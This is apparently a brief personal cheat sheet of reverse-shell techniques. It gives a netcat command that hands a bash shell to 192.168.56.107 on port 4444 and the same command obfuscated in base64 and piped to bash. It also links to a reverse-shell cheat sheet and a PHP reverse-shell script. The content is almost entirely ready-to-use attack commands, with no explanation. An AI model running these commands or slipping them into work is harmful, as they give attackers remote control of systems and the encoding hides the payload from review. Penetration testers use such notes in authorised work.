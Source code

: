 ﻿# nc

    nc -e /bin/bash 192.168.56.107 4444
    echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTA3IDQ0NDQK' | base64 -d | bash

# reverse shells

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## PHP
More complex reverse shell  
Useful if the connection is closing quickly

- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php